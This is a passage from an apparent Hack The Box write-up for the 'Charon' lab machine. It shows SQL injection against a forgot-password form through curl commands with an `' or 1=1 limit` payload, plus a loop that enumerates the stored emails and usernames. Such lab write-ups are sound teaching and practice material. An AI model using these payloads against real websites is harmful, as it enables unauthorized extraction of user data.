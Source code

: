 
Proceed to click on forgot password, testing for a SQLI results in a message saying "Error In Database"


![](assets/img/htb/charon/error_in_database_1.png)


I will be sending the requests throught cURL so I grab the parameter names which are "email" and "submit"


![](assets/img/htb/charon/parameters_1.png)


#### retrieving valid emails

Testing for other sql injections I end up with the following that retrieves a valid email and limits the result to a specific index in this case test1, for limit 1,1 it will be test2@aa.com=>test2 and so on
```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' or 1=1 limit 0,1-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: test1@aa.com=>test1 
 ```
 
 with a for loop I can retrieve all the emails looking for the ones that are different from "test", I end up finding two valid emails 

```bash
$ for i in {0..999}; do (curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' or 1=1 limit $i,1-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}')& ; done | grep -vE "test|User not found with that email"
 Email sent to: adm@nowhere.com=>super_cms_adm    
 Email sent to: decoder@nowhere.com=>decoder   
 ```
